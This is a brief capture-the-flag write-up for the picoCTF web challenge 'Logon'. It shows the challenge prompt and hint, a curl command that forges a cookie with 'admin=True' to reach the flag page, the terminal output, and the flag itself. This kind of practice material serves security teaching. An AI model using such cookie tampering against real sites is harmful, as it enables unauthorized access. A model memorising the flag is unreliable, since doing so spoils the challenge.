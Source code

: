 ## Logon

The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/13594/` ([link](https://jupiter.challenges.picoctf.org/problem/13594/)) or http://jupiter.challenges.picoctf.org:13594

Hints:
1. Hmm it doesn't seem to check anyone's password, except for Joe's?


## Solución
```



brisguz@DESKTOP-8V24E1B:~$ curl https://jupiter.challenges.picoctf.org/problem/13594/flag -H "Cookie: username=Bri; password:Bri; admin=True" | grep pico
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1312  100  1312    0     0   1226      0  0:00:01  0:00:01 --:--:--  1228
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}</code></p>
brisguz@DESKTOP-8V24E1B:~$



picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}

```
